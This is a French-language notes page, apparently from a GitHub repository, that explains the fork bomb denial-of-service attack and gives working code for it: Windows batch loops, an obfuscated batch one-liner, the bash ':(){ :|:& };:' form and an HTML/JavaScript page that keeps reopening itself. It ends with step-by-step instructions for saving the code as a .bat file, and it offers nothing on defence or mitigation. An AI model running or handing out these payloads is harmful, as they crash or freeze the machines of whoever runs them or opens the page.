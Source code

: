# Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb2.bat)

## Variante Windows 2 (Batch)
```
@echo.%0^|%0>$^_^.c^md&$_>nul
```
[forkBomb3.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/Scripts/forkbomb3.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```
[forkBomb.html](https://github.com/Altherneum/.github/blob/main/note/Code/Web/HTML/forkBomb.html)

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)